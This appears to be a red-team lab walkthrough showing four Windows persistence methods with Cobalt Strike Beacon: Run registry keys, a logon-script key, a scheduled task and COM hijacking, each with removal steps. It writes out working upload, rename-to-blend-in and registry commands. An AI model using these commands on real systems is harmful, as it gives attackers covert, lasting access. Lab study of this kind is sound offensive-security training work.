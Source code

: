 # Kill Chain 1

## Registry Run Keys <a href="#registry-run-keys" id="registry-run-keys"></a>

1. Change Beacon's current working directory.
   1. cd C:\Users\pchilds\AppData\Local\Microsoft\WindowsApps
2. Upload an HTTP Beacon payload.
   1. upload C:\Payloads\http\_x64.exe
3. Rename the payload to something that will help it blend in.
   1. mv http\_x64.exe updater.exe
4.  Add the autorun registry key.

    ```beacon-nocolor
    beaconTypeCopyreg_set HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater REG_EXPAND_SZ %LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe
    ```
5. Verify the registy key has been added.
   1. Launch a PowerShell window.
   2. `Get-Item -Path 'HKCU:Software\Microsoft\Windows\CurrentVersion\Run'`
6. Remove the persistence by deleting the registry key.
   1. `reg_delete HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater`



## Logon Script <a href="#logon-script" id="logon-script"></a>

1.  Assuming the previous payload in _%USERPROFILE%\AppData\Local\Microsoft\WindowsApps_ still exists, create a new **UserInitMprLogonScript** registry key.

    ```beacon-nocolor
    beaconTypeCopyreg_set HKCU Environment UserInitMprLogonScript REG_EXPAND_SZ %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\updater.exe
    ```
2. Verify the registy key has been added.
   1. Launch a PowerShell window.
   2. Get-Item -Path 'HKCU:Environment'
3. Sign back in to trigger the logon script.
4. Remove the persistence by deleting the registry key
   1. `reg_delete HKCU Environment UserInitMprLogonScript`



## Scheduled Task <a href="#scheduled-task" id="scheduled-task"></a>

1.  Assuming the previous payload is still saved in the WindowsApps directory, save the following XML to your Attacker Desktop (e.g. C:\Payloads\task.xml)

    ```xml
    <Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
      <Triggers>
        <LogonTrigger>
          <Enabled>true</Enabled>
          <UserId>CONTOSO\pchilds</UserId>
        </LogonTrigger>
      </Triggers>
      <Principals>
        <Principal>
          <UserId>CONTOSO\pchilds</UserId>
        </Principal>
      </Principals>
      <Settings>
        <AllowStartOnDemand>true</AllowStartOnDemand>
        <Enabled>true</Enabled>
      </Settings>
      <Actions>
        <Exec>
          <Command>%LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe</Command>
        </Exec>
      </Actions>
    </Task>
    ```
2.  In Beacon, create the scheduled task.

    1. schtaskscreate \Beacon XML CREATE

    > Cobalt Strike will launch a file dialogue window for you to select the XML file.
3.  Verify the task was created.

    1. Open a PowerShell window.

    ```powershell
    powershellTypeCopy$task = Get-ScheduledTask -TaskName 'Beacon'
    $task.Actions
    ```
4. Sign back in to trigger the task.



## COM Hijacking <a href="#com-hijacking" id="com-hijacking"></a>

1. Upload a Beacon DLL payload.
   1. `cd C:\Users\pchilds\AppData\Local\Microsoft\WindowsApps`
   2. `upload C:\Payloads\http_x64.dll`
   3. `mv http_x64.dll WindowsStore.dll`
2.  Create the required registry keys to hijack the **{A6FF50C0-56C0-71CA-5732-BED303A59628}** COM object. This is loaded by svchost, dllhost, explorer, and a few other processes.

    ```beacon-nocolor
    beaconTypeCopyreg_set HKCU "Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" "" REG_EXPAND_SZ "%LocalAppData%\Microsoft\WindowsApps\WindowsStore.dll"
    reg_set HKCU "Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" "ThreadingModel" REG_SZ "Both"
    ```
3.  Verify the registy values have been added.

    1. Launch a PowerShell window.
    2. `Get-Item -Path 'HKCU:Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32'`

    It's usually pretty hard to know or predict when a process will attempt to load a COM object. You can wait for it to happen or try to force it.
4. Sign back in to (hopefully) trigger the COM object to be loaded.
5. Come back to [Attacker Desktop](https://labclient.labondemand.com/Instructions/6cfc2f11-8f92-4b23-94a9-d691ae514711) and a new Beacon (or many new Beacons) should appear.
6.  Delete the persistence by removing the registry keys:

    ```beacon-nocolor
    beaconTypeCopyreg_delete HKCU "Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32"
    reg_delete HKCU "Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}"
    ```
